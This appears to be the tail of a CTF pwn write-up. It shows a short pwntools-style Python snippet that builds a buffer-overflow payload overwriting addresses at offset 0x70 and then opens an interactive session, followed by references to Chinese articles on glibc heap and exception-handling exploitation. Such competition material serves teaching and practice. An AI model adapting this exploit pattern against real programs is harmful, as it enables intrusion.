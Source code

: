 ```python
payload = flat(
    {0: [0xDEADBEEF, 0xDEADCAFE, 0xCAFECAFE], 0x70: [0x404200 + 8, 0x401BC2 + 1]}
)
warn(payload)

ia()

# 94611941604724180481409014608611
```

---

## References

1. [CTF 中 glibc堆利用 及 IO_FILE 总结](https://bbs.kanxue.com/thread-272098.htm) . _[winmt](https://bbs.kanxue.com/homepage-949925.htm)_
2. [2024 羊城杯 PWN 详细全解 - ptrace 系统调用概述](https://xz.aliyun.com/t/15461#toc-0)
3. [溢出漏洞在异常处理中的攻击利用手法](https://xz.aliyun.com/t/12967)
